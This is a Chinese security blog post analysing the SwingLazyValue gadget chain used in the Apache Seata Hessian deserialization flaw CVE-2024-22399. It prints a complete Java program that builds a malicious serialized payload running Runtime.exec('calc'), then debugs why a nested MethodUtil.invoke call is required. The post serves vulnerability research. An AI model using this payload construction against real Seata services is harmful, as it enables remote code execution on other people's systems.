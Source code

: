 #  CVE-2024-22399 - SwingLazyValue利用链构造分析   
 船山信安   2024-12-05 18:00  
  
# 前言  
  
通过Apache Seata Hessian反序列化漏洞（CVE-2024-22399）来分析一下该漏洞中所用到的SwingLazyValue利用链的构造过程  
# 分析过程  
  
序列化代码  
，将序列化后的数据保存到mimeTypeParameterList.ser中  
```
import com.caucho.hessian.io.*;
import sun.swing.SwingLazyValue;
import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
public class SerializeExample {
    public static void ser(Object evil) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);  //允许反序列化NonSerializable
        baos.write(67);
        output.writeObject(evil);
        output.flushBuffer();
        Files.write(Paths.get("mimeTypeParameterList.ser"), baos.toByteArray());
    }
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
        uiDefaults.put("xxx", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);
        ser(mimeTypeParameterList);
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```  
  
SwingLazyValue利用链  
的关键点是要进入到Hessian2Input#expect()方法里面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh99j81jiczWQX9bAibfQCxDrlAicSUcdfiaQhotGpvMU64EBH2X3G8vSx3AA/640?wx_fmt=png&from=appmsg "")  
  
通过exp可以看到序列化了一个MimeTypeParameterList对象，同时通过baos.write(67)  
向字节流中添加了一个字节的数据，然后将得到的字节数据保存到文件中  
  
下面通过调试来分析SwingLazyValue利用链  
的构造过程  
```
byte[] serializedBytes = Files.readAllBytes(Paths.get("mimeTypeParameterList.ser"));
ByteArrayInputStream bais = new ByteArrayInputStream(serializedBytes);
Hessian2Input input = new Hessian2Input(bais);
input.readObject();
```  
  
程序首先进入到Hessian2Input#readObject()中，_buffer[]是序列化后的字节数据，刚开始时offset为0，程序会读取一个字节，读取到的就是我们手动添加的那个字节67，读取完之后offset加1变成了1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9pGlYZgpPib0xfSOAbZhHKbkWZI8TwZaQOr4j7k1ZuswN7ubtMqLbAKg/640?wx_fmt=png&from=appmsg "")  
  
调用到readObjectDefinition()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9NfCTuCaXEF3HFJr5z6cyYtozsWY828AyibJNPg7eZ6nzj7TC3OQ2hJw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9j3UNpibFG8v2m2qZkKfliaVlWd7CMwgOMuBJ6ZYXE4dIWs0gibicJxybxA/640?wx_fmt=png&from=appmsg "")  
  
跟进到readString，通过this.read()读取buffer字节数组中的第二个字节，读取完之后offset++，程序会进入到expect()中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9hFiblLYicDqewD5hNd2QibRFeqicka2mwcQxzKEACfOUGq9icS8K9JpxlKQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9S20Q3HhN9HRucK1t8RkSziagNs7Jn4LtIx0SVf4wuFP240IExoLy8NQ/640?wx_fmt=png&from=appmsg "")  
  
在expect()方法中会再次调用到this.readObject()，而此时offset的值为1，也就是说程序会从正常的字节流部分开启读取数据，最终得到的obj就是一个MimeTypeParameterList对象  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9SF5ahbOqG4ZfH0wOBWFF7PPVuJFVbyvzOGlib4I8ay2X4TeortNgoSA/640?wx_fmt=png&from=appmsg "")  
  
程序执行到" (" + obj + ")"  
的时候，由于obj是一个对象，所以会先触发StringBuilder#append()，接着会调用到MimeTypeParameterList#toString()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9n49cV608LdFa8hpKLBSiauicnBMhreT9iaZfcWDObvUubEoQ8aM4SCHhA/640?wx_fmt=png&from=appmsg "")  
  
this.parameters属性的值就是UIDefaults对象，UIDefaults继承了Hashtable类，Hashtable 是 Java 中的一个集合类，属于 java.util  
 包。它实现了 Map 接口，用于存储键值对  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9xTMaIEziaeTn4ic5O7nuphfAMvx4Pw0Y7quzREia8795aYU5INANLQq9g/640?wx_fmt=png&from=appmsg "")  
  
通过key得到的值是一个SwingLazyValue  
对象，接着进入到getFromHashtable()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9xMKYopFpLDMAylSLIrAgx1PjKZg0zdr4yqKar7WLibTPxpCQftjB3fg/640?wx_fmt=png&from=appmsg "")  
  
会调用到SwingLazyValue#createValue()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9gCKShic9MIIYhlWBYbpCMiaL26PyJwLZDc41KI8KicZGGrSgyzdk8iadeg/640?wx_fmt=png&from=appmsg "")  
  
首先动态加载了this.className  
类，然后通过反射获取到了类中的this.methodName  
方法，最后通过var6.invoke()来调用该方法，this.args  
是该方法的参数  
  
这里不能直接利用java.lang.Runtime调用exec方法来执行系统命令，因为var6.invoke(var2, this.args)  
是使用Java的反射机制通过 Method 对象调用一个方法，当所调用的方法是实例方法时，var2的值必须是一个对象实例，但是这里的var2只是类的class对象  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9Maa6PK0u5vJRgrL5BQ3F5opic9E9wRAFoB1SCjo4f0icwMcia7H4dTCuA/640?wx_fmt=png&from=appmsg "")  
  
由于exec()是一个实例方法，但是var2并不是一个实例对象，这里就无法直接调用，所以就需要用到MethodUtil#invoke()  
，invoke()是静态方法，所以var2的值可以为null或者是类的class对象  
  
通过构造的SwingLazyValue对象可以调用到MethodUtil#invoke()  
，参数是new object[]  
```
new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{})
```  
  
按道理来说，在这里就可以通过new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}})  
去执行命令，但是从exp中可以看到这里是再次调用了MethodUtil#invoke()之后，最后才调用了exec()  
```
Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
    SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
```  
  
使用直接调用exec()的payload尝试能够触发计算器，执行之后发现程序并没有弹出计算器  
  
在SwingLazyValue#createValue()中下断点进行调试，发现当程序执行到Method var6 = var2.getMethod(this.methodName, var3);  
会报错，报出的错误为没有找到对应的方法  
  
这两个payload之间就只有var3参数不相同，所以说明是var3参数的变化导致了报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9CagfIXrzE1SsLv16AsrnCAmhZzic8ECgHIzxWDfzCHUlicF6jo2LTnzQ/640?wx_fmt=png&from=appmsg "")  
  
跟进到var2.getMethod()中，下面第一张图是正常的payload，能正常获取到method，第二张则是获取不到method  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9B06gKv1I6VwCjd79KTK7wL1ZWaOAJB4VEMbjk2HwibKhSlU0t9picMtQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9YsbTgYSwc3ooQld70mdCicaP6cEqMD1VRjmDPgCnJEiaCXWRBKAXnokw/640?wx_fmt=png&from=appmsg "")  
  
跟进到getMethod0()，parameterTypes变量中保存了invoke()方法的参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh98cevBzFWbrqJuicAqEhPiceiaHfQnBA7Ep8BibGZvibfMT80RWXQGDR6Beg/640?wx_fmt=png&from=appmsg "")  
  
继续跟进到privateGetMethodRecursive()，privateGetDeclaredMethods(true)  
会返回MethodUtil类下所有参数类型符合的方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9gRPYZ93sDGMlUPrEcOXHf8VgFmCCmUAPodiawW3m1AeBEY9uYbuVDIA/640?wx_fmt=png&from=appmsg "")  
  
接着调用searchMethods()，在该方法下会遍历methods，在if语句中有一个参数类型的判断，invoke(Method var0, Object var1, Object[] var2)  
，invoke()方法的第一个参数为Method类型，其他两个参数都为Object类型  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9XZYEqfHK4kgNsnRkLaIfia9F4UGwnuNoO0FNdNbUP0r5EZXHMvwSHdw/640?wx_fmt=png&from=appmsg "")  
  
而我们构造的payload的参数类型按道理来说也是符合的，但是问题就出现在arrayContentsEq()中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9SVQF0wbNWeYDI0fNI7GwQ982miczSXibrZaYCPUicnGpwwn2VPGxiaiabbQ/640?wx_fmt=png&from=appmsg "")  
  
arrayContentsEq()是java.lang.Class  
类下的一个方法，跟进到该方法下，可以看到是通过==来判断参数类型是否符合的，而不是通过xx instanceof Object  
这种形式，所以这里就会认为参数类型不符合从而返回false，导致无法调用到invoke()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOmmTfeJlyXeS1LEqo0aJh9icWNqhYFm2cTibbbtd5ibc1hIxQdNxfMsuOZZqRWKYNsYLxCFtWWDyy6g/640?wx_fmt=png&from=appmsg "")  
# 参考  
  
https://xz.aliyun.com/t/15653  
  
https://blog.csdn.net/uuzeray/article/details/136862413  
  
  
【来源】：https://xz.aliyun.com/t/16436?time__1311=GuD%3Dq%2BxIOGCD%2FD0liGkWBm64frhAeD  
  
  
